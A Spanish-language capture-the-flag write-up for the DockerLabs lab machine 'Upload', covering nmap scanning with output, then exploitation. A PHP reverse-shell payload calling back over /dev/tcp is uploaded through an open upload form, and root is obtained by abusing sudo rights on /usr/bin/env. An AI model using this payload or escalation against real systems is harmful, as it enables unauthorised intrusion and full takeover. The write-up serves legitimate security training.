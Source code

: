 #MAQUINA #DOCKERLABS #FACIL
#ABUSO_SUBIDA_ARCHIVOS 
<hr>
# RECONOCIMIENTO

Vamos a resolver **Upload** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 09:03 CET
Initiating ARP Ping Scan at 09:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:03, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:03, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-09 09:03:40 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 09:04 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000021s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.42 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 09:04 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Hay un directorio **uploads**.
# EXPLOTACION

Al revisar el puerto 80, vemos una subida de archivos. Subimos un php (reverse shell) sin problemas y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**):

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@60fdd9354665:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on 60fdd9354665:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 60fdd9354665:
    (root) NOPASSWD: /usr/bin/env


```

Vemos **env** con permisos SUDO :
   ```bash
www-data@60fdd9354665:/var/www/html/uploads$ sudo /usr/bin/env /bin/sh
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**